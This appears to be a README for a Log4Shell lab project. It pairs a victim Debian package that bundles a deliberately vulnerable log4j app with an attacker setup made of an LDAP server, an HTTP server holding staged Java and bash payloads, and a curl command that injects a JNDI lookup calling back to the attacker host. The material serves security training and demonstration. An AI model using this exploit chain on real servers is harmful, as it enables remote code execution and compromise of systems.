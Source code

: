 M75-LOG4J-VULNERABILITY
-----------------------

# Overview

![](./images/log4j-explained.webp)

# Project Structure

```
.
├── README.md
├── attacker                        # Attacker related files
│   ├── docker-compose.yml          # used to build and run the payload-generator, ldap server and http server containers
│   ├── http-dir                    # http server hosted directory
│   │   ├── Plugin.class            # Java class hosted by the http server ready for the victim (stage 2 payload)
│   │   └── fRitPo                  # Linux bash script (stage 3 payload)
│   ├── marshalsec                  # attacker ldap server
│   └── payload-generator           # dockerized payload generator (used to update jave source and compile it)
│       ├── Dockerfile              
│       └── Plugin.src.java         # stage 2 payload source code
├── images                          # README media
└── victim                          # Victim related files
    ├── Makefile                    # Helper script to build the debian package
    ├── buildingmgmt.1.0-2          # fake building management server/app source
    ├── buildingmgmt.1.0-2.deb      # distributable debian package ready for install
    └── log4shell-vulnerable-app    # log4j vulnerable app
```

### References
- [log4shell-dockerlab](https://javarepos.com/lib/ChoiSG-log4shell-dockerlab)

# Usage

## Victim

1. Download and install the vulnerable web app.
    ```bash
    sudo apt-get update
    wget -O /tmp/buildingmgmt.deb https://github.com/sintax1/M75-log4j-vuln/blob/master/victim/buildingmgmt_1.0-2_all.deb?raw=true
    sudo apt install -y /tmp/buildingmgmt.deb
    ```

## Attacker

1. clone the source repo onto the attacker VM.

    ```
    git clone https://github.com/sintax1/M75-log4j-vuln.git
    ```

2. Update the configuration (.env)

    ```
    #.env

    VICTIM_TO_ATTACKER_HTTP_PORT=8081
    VICTIM_TO_ATTACKER_PUBLIC_IP_OR_DOMAINNAME=20.231.205.2
    ATTACKER_HTTP_SERVER_PORT=8081
    ATTACKER_HTTP_DIR=./http-dir
    ```

2. Build and run the docker containers.

    > Note: This requires [docker and docker compose](#installing-docker-and-docker-compose) on the attacker VM

    ```
    cd M75-log4j-vuln/attacker
    docker compose up
    ```

3. Launch the exploit.

    ```
    VICTIM=<The victim accessible IP or domain name accessible by the attacker>
    VICTIM_VULN_PORT=<The port where the log4j vulnerable web app is running on the victim>
    ATTACKER=<The attacker IP or Domain name accessible by the victim, for callbacks>
    LDAP_PORT=1389
    STAGE2_JAVA_CLASS_NAME=Plugin
    curl ${VICTIM}:${VICTIM_VULN_PORT} -H 'X-Api-Version: ${jndi:ldap://${ATTACKER}:${LDAP_PORT}/${STAGE2_JAVA_CLASS_NAME}}'
    ```

# Development

## Attacker


## Victim

### Build Java stage 2 payload

> Note: Requires gradle java builder

    ```bash
    cd victim/log4shell-vulnerable-app; gradle bootJar --no-daemon
    cp build/libs/*.jar ../buildingmgmt.1.0-2/building-management.jar
    ```

### Build .deb package

    ```bash
    # Use docker to build so you don't need to install debian build tools locally
    git clone https://github.com/tsaarni/docker-deb-builder.git

    # Build the build cotnainer
    cd docker-deb-builder
    docker build -t docker-deb-builder:20.04 -f Dockerfile-ubuntu-20.04 .

    # create the output dir for the .deb pkg
    mkdir output

    # Build
    ./build -i docker-deb-builder:20.04 -o output <path to debian source>
    ```

### Transfer to the victim and install

    ```bash
    apt install buildingmgmt.*.deb
    ```

# Installing docker and docker compose
```bash
sudo apt update
sudo apt install -y apt-transport-https ca-certificates curl software-properties-common
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu focal stable"
apt-cache policy docker-ce
sudo apt install -y docker-ce

mkdir -p ~/.docker/cli-plugins/
curl -SL https://github.com/docker/compose/releases/download/v2.2.3/docker-compose-linux-x86_64 -o ~/.docker/cli-plugins/docker-compose
chmod +x ~/.docker/cli-plugins/docker-compose
sudo chown $USER /var/run/docker.sock

```